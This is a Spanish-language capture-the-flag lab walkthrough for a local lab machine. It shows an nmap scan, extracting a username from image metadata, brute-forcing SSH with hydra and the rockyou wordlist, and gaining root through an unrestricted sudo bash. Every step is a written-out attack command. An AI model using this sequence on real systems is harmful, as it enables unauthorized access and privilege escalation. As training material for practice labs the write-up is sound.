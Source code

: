 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Vemos que tiene una web corriendo. Vamos a ver que esconde.
![alt text](image-1.png)

Vemos que el contenido de la web es una imágen, asi que la vamos a descargar para poder analizarla. Una vez descargada, vamos a ver sus metadatos para ver si nos da alguna pista por saber donde tirar.
```
exiftool imagen.jpeg
```
![alt text](image-3.png)

Hemos podido ver que nos mustra elusuario `borazuwarah`, así que vamos a realizar un ataque de fuerza bruta para poder descifrar la password.
```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![alt text](image-2.png)

Vemos que nos da las claves, así que vamos a entrar al servidor por el servicio ssh.
```
ssh borazuwarah@172.17.0.2
```
![alt text](image-4.png)

Vemos que da un error controlado del servicio ssh, así que aplicaremos un comando opara solucionarlo.
```
ssh-keygen -R 172.17.0.2
```
![alt text](image-5.png)

Ahora vamos a volver a intentar entrar. Si todo lo hemos hecho no dará ningún porblema.
```
ssh borazuwarah@172.17.0.2
password: 123456
```
![alt text](image-6.png)

Vemos que hemos entrado correctamente, ahora vamos a escalar privilegios. Para ello nos vamos a intentar aprovechar de los binarios. 
```
sudo -l
```
![alt text](image-7.png)

Vemos que tenemos el binario bash con todos los permisos, entonces vamos a explotarlo.
```
sudo /bin/bash
```
![alt text](image-8.png)